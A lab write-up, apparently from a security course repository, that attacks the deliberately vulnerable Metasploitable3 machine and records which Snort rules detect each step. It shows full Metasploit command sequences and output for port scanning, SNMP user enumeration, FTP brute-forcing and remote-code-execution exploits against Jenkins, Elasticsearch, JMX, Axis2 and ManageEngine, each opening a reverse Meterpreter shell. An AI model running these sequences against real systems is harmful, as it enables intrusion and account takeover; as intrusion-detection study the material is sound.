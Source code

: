 # Is it easier to fix the application than to detect attacks?
It is obviously best not to have any exploitable vulnerabilities at all. Then again vulnerabilities are always unknown at first so having intrusion detection and to verify the system integrity is at least some kind of countermeasure, especially if the detecting NIDS/HIDS can actively block traffic besides producing alerts.
The possibility of fixing applications depends together with other factors for example on whether the software is open source or proprietary and if it is actively maintained or not. A common scenario is old proprietary software which only works on older systems leading to unpatched systems running with known vulnerabilities.
In the case of systems based solely on open source I would argue that it is always easier to fix the application but to become aware of vulnerabilities that needs to be fixed analysing anomalies in systems and network traffic is a great help.
1. Portscan of Metasploitable3
The system was set up and snort installed in the virtual machine with the snapshot-2990 and community rule sets. Custom nonstandard HTTP ports like 8484 was added to HTTP_PORTS, http_inspect_server and the stream5_tcp preprocessor in snort.conf as they were not included by default.
# nmap -sS -p 1-65535 -T4 -v 192.168.78.2
Initial TCP SYN port scan showed 17 open ports:
$ nmap -sV -p 21,22,80,1617,3000,4848,5985,8022,8080,8282,8484,\
  8585,9200,49153,49154,49202,49203 -v 192.168.78.2

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
22/tcp    open  ssh           OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http          Microsoft IIS httpd 7.5
1617/tcp  open  nimrod-agent?
3000/tcp  open  http          WEBrick httpd 1.3.1 (Ruby 2.3.1 (2016-04-26))
4848/tcp  open  ssl/http      Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8022/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8080/tcp  open  http          Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
8282/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8484/tcp  open  http          Jetty winstone-2.8
8585/tcp  open  http          Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
9200/tcp  open  http          Elasticsearch REST API 1.1.1 (name: Mandroid; Lucene 4.7)
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49202/tcp open  unknown
49203/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Slow comprehensive nmapscan additionally revealed:
161/udp   open  snmp     SNMPv1 server (public)
Snort produced no alerts for any of the scans even when enabling sfportscan preprocessor in snort.conf and indicator-scan.rules:28. There are nmap-specific rules in deleted.rules but I decided to move on.
2. Gathering information using SNMP
2.1 msfconsole
msf > use auxiliary/scanner/snmp/snmp_enum
msf auxiliary(snmp_enum) > set RHOSTS 192.168.78.2
msf auxiliary(snmp_enum) > exploit
...
[*] System information:
Host IP                       : 192.168.78.2
Hostname                      : metasploitable3
...
The snmp-scanner found 20 user accounts:
•	Administrator, Guest, anakin_skywalker, artoo_detoo, ben_kenobi, boba_fett, c_three_pio, chewbacca, darth_vader, greedo, han_solo, jabba_hutt, jarjar_binks, kylo_ren, lando_calrissian, leah_organa, luke_skywalker, sshd, sshd_server, vagrant
2.2 snort
A walk of the public snmp MIB was not detected by snort. Enabling rules in protocol-snmp.rules produced:
PROTOCOL-SNMP public access udp [**] [Classification: Attempted Information Leak]
PROTOCOL-SNMP request udp [**] [Classification: Attempted Information Leak]
3. Bruteforcing FTP
3.1 msfconsole
Known usernames were added to users.txt.
msf > use auxiliary/scanner/ftp/ftp_login
msf auxiliary(ftp_login) > set RHOSTS 192.168.78.2
msf auxiliary(ftp_login) > set USER_FILE users.txt
msf auxiliary(ftp_login) > set PASS_FILE /opt/metasploit/data/wordlists/unix_passwords.txt
msf auxiliary(ftp_login) > set USER_AS_PASS true
msf auxiliary(ftp_login) > exploit
...
[+] 192.168.78.2:21       - 192.168.78.2:21 - LOGIN SUCCESSFUL: Administrator:vagrant
[+] 192.168.78.2:21       - 192.168.78.2:21 - LOGIN SUCCESSFUL: vagrant:vagrant
Detected credentials can be used in terminal-logins and for services like FTP, SSH, and others.
3.2 snort
Snort does not detecting bruteforcing of FTP other than monitoring rate of logins and that could be avoided by limiting the attack rate.
4. Exploiting Jenkins
4.1 msfconsole
msf > use exploits/multi/http/jenkins_script_console
msf exploit(jenkins_script_console) > set RHOST 192.168.78.2
msf exploit(jenkins_script_console) > set RPORT 8484
msf exploit(jenkins_script_console) > set TARGETURI /
msf exploit(jenkins_script_console) > exploit
...
[*] Sending stage (957487 bytes) to 192.168.78.2
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 192.168.78.2:49644) at 2017-04-09 18:04:14 +0300

meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
4.2 snort
Enabling app-detect.rules:172, server-other.rules:1436 and changing the URI from "/jenkins/" to "/" produced:
APP-DETECT Jenkins Groovy script access through script console attempt [**] [Classification: Potential Corporate Privacy Violation]
5. Exploiting Elasticsearch (CVE-2014-3120)
5.1 msfconsole
msf > use exploit/multi/elasticsearch/script_mvel_rce
msf exploit(script_mvel_rce) > set RHOST 192.168.78.2
msf exploit(script_mvel_rce) > exploit
...
[*] Trying to execute arbitrary Java...
[*] Discovering remote OS...
[+] Remote OS is 'Windows Server 2008 R2'
[*] Discovering TEMP path
[+] TEMP path identified: 'C:\Windows\TEMP\'
[*] Sending stage (49667 bytes) to 192.168.78.2
[*] Meterpreter session 3 opened (172.28.128.1:4444 -> 192.168.78.2:56198) at 2017-04-09 00:01:45 +0300
[!] This exploit may require manual cleanup of 'C:\Windows\TEMP\GgOFe.jar' on the target

meterpreter > getuid
Server username: METASPLOITABLE3$
5.2 snort
Enabling server-other.rules:812,1336 produces:
SERVER-OTHER ElasticSearch script remote code execution attempt [**] [Classification: Attempted User Privilege Gain]
6. Exploiting JMX (CVE-2015-2342)
6.1 msfconsole
msf > use exploit/multi/misc/java_jmx_server
msf exploit(java_jmx_server) > set RHOST 192.168.78.2
msf exploit(java_jmx_server) > set RPORT 1617
msf exploit(java_jmx_server) > exploit
...
[+] 192.168.78.2:1617 - Handshake with JMX MBean server on 192.168.78.2:49202
[*] 192.168.78.2:1617 - Loading payload...
[*] 192.168.78.2:1617 - Replied to request for mlet
[*] 192.168.78.2:1617 - Executing payload...
[*] Sending stage (49667 bytes) to 192.168.78.2
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 192.168.78.2:55207) at 2017-04-08 22:41:42 +0300

meterpreter > getuid
Server username: LOCAL SERVICE
6.2 snort
Enabling server-other.rules:177,1346 produces:
SERVER-OTHER Oracle Java JMX server insecure configuration remote code execution attempt [**] [Classification: Attempted User Privilege Gain]
7. Exploiting Apache Axis2 (CVE-2010-0219)
7.1 msfconsole
Default payload did not work but adjusting target and payload gained a meterpreter prompt.
msf > use exploit/multi/http/axis2_deployer
msf exploit(axis2_deployer) > set RHOST 192.168.78.2
msf exploit(axis2_deployer) > set LHOST 172.28.128.1
msf exploit(axis2_deployer) > set RPORT 8282
msf exploit(axis2_deployer) > set target 1
msf exploit(axis2_deployer) > set payload java/meterpreter/reverse_tcp
msf exploit(axis2_deployer) > exploit

[*] Started reverse TCP handler on 172.28.128.1:4444
[+] http://192.168.78.2:8282/axis2/axis2-admin [Apache-Coyote/1.1] [Axis2 Web Admin Module] successful login 'admin' : 'axis2'
[*] Successfully uploaded
[*] Polling to see if the service is ready
[*] Sending stage (49667 bytes) to 192.168.78.2
[*] Meterpreter session 10 opened (172.28.128.1:4444 -> 192.168.78.2:52402) at 2017-04-09 21:47:02 +0300
[+] Deleted webapps/axis2/WEB-INF/services/ekQcQZls.jar

meterpreter > getuid
Server username: METASPLOITABLE3$
7.2 snort
Enabling server-other.rules:1451 and policy-other.rules:84,115-116
POLICY-OTHER HP Universal CMDB default credentials authentication attempt [**] [Classification: Potential Corporate Privacy Violation]
POLICY-OTHER CA ARCserve Axis2 default credential login attempt [**] [Classification: Attempt to Login By a Default Username and Password]
POLICY-OTHER HP Universal CMDB server axis2 service upload attempt [**] [Classification: Attempted Administrator Privilege Gain]
7. Exploiting ManageEngine (CVE-2015-8249)
7.1 msfconsole
msf > use exploit/windows/http/manageengine_connectionid_write
msf exploit(manageengine_connectionid_write) > set RHOST 192.168.78.2
msf exploit(manageengine_connectionid_write) > set RPORT 8022
msf exploit(manageengine_connectionid_write) > exploit

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Creating JSP stager
[*] Uploading JSP stager vSkNT.jsp...
[*] Executing stager...
[*] Sending stage (957487 bytes) to 192.168.78.2
[*] Meterpreter session 3 opened (172.28.128.1:4444 -> 192.168.78.2:53235) at 2017-04-09 22:34:31 +0300
[+] Deleted ../webapps/DesktopCentral/jspf/vSkNT.jsp

meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
7.2 snort
Enabling rules/server-webapp.rules:1853-1855
SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**] [Classification: Web Application Attack]

